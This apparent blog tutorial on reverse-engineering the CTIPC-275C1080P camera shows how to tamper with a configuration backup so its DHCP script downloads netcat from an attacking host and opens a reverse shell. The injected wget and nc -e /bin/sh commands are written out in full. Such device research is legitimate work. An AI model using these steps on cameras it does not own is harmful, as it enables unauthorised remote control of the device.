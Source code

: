 ```yaml
---
layout: post
title:  CTIPC-275C1080P Reverse Shell
date:   2019-03-24 08:59:22 -0700
tags:   hi3518 reverse_engineering linux
---
```

In the [previous post]({% post_url 2019-03-06-getting_into_the_ctipc-275c1080p %}), we used a command execution vulnerability to clobber `/etc/shadow` with our own known version to allow login via `telnetd` which the vendor kindly left on the device for us.  What if we didn't have the telnet service sitting there waiting for us?  In this post, we'll use a very similar exploit to run a simple `netcat` reverse shell, bypassing the authentication mechanism entirely.

As before, start with a clean `config_backup.bin` acquired by downloading _Backup settings data_ from `System -> Initialize` in the GUI and strip off the header.
```
dd bs=512 skip=1 if=config_backup.bin of=config_backup.tgz
```
We're going to clobber the DHCP dispatcher's comments again, but this time we're going to download `netcat` from our attacking host and then push a shell from the camera.
```
gzip -cd config_backup.tgz |
sed -e 's|# Currently, we only dispatch according to com|wget http://192.168.0.208:8001/nc -O /tmp/nc #|' |
sed -e 's|# elaborate system|chmod +x /tmp/nc #|' |
sed -e 's|# common initialization first, especially|/tmp/nc -e /bin/sh 192.168.0.208 8000 \& #|' |
gzip -c --best > archive.tgz
```
Now, your `default.script` looks like this:
```
#!/bin/sh
wget http://192.168.0.208:8001/nc -O /tmp/nc #mand.  However, a more
chmod +x /tmp/nc # might dispatch by command and interface or do some
/tmp/nc -e /bin/sh 192.168.0.208 8000 & # if more dhcp event notifications
# are added.

exec /mnt/mtd/ipc/conf/udhcpc/default.$1
```
Of course `192.168.0.208` is our attacking host and needs to be on the same network that the camera will be requesting DHCP from.  Because our reverse shell is interactive, in our updated version, the nameserver won't be added to `resolv.conf` until after we exit the shell, but we don't care since we're connecting by IP anyway.
